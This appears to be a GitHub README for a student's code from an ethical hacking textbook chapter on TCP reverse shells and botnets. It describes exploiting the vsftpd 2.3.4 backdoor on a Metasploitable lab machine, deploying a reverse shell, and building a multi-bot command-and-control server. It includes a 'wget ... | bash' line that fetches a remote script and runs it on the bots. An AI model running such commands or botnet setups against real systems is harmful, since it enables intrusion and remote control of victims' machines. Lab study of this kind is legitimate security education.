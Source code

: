 # botNet
All of the code from Chapter 4 of Ethical Hacking: A Hands on Introduction to Breaking In. Chapter 4 is titled: Crafting TCP Shells and Botnets  


In this chapter, we are taught about sockets and process communication. It explains how TCP handshakes work the type/way packets are exchanged between the client and the server. We then are taught about what a TCP reverse shell is. It is explained that since a lot of firewalls allow outgoing connections only, the solution as an attacker is to install a reverse shell on the victim machine that connects to the command and control server outside the network. Once this connection is made, you can send commands to the victim which are then executed.  It then gives us a diagram that shows how this works/is going to work as we work in the chapter. You can view it as 'diagram.png'.  

We then were taught how to use nmap to scan for open ports. We learned about some different scan types and flags for nmap, as well as the pros and cons of them. On the metasploitable server, we located an open tcp port 21 which has a vulnerable version of vsftpd (2.3.4) running. This is what we are going to exploit to gain access to the metasploitable machine so that we can load our reverse shell onto it. It is a backdoor that starts a shell running on port 6200 which we connect to and download reverseShell.py onto the victim machine.  

We also have to create a TCP server that does 2 main things and functions as our command and control server: shellServer.py
1. accept connection from client
2. send and receive commands
The problem with this TCP server is that it can only handle one connection. If our goal is to create a network of victim clients (botnet) then we need to have a TCP server that can handle multiple connections.

We create another TCP server that can handle multiple connections and the idea is that instead of sending and receiving individual commands to each bot, we want the bot to all receive the same command. After our command and control server receives a response, we want it to print the bot's IP address and the result of executing the command. What I have so far is in shellServerMulti.py.  The exercise is considered completed when this server reads from a file and sends the commands in that file to the clients. I know there are probably a lot of ways this can be done, but what i've done is have the filepath passed in as an argument when you start the server for example:  
```
kali@kali:~$ python3 shellServerMulti.py <filepath>
```
For some reason this is not working. I also am thinking that we can just execute this command once we have the client connect since we are using a reverse shell anyway:  
```
kali@kali~$ wget -O - <IP ADDRESS>:PORT/filepath/file.sh | bash
```
This could encapsulate the commands outside of the server code (this idea came to me this morning as I was putting together this github) and I wouldn't have to worry about parsing the file in python at all. The code would be super clean.  

Thank you for anyone taking the time to look over this stuff and offer advice, pointers, or contributions. Feel free to use and abuse all of this code.
